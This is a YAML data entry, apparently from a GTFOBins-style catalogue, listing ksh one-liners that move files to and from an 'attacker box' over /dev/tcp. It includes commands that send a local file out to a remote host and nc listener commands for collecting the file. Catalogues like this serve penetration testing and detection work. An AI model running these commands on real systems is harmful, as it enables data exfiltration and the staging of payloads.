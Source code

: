 ```yaml
---
functions:
  file-upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        ksh -c 'echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT'
    - description: Send local file using a TCP connection. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file.
      code: |
        ksh -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        ksh -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
            3<>/dev/tcp/$RHOST/$RPORT \
            | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 4444 < "file_to_send"` on the attacker box to send the file.
      code: |
        ksh -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
---
```

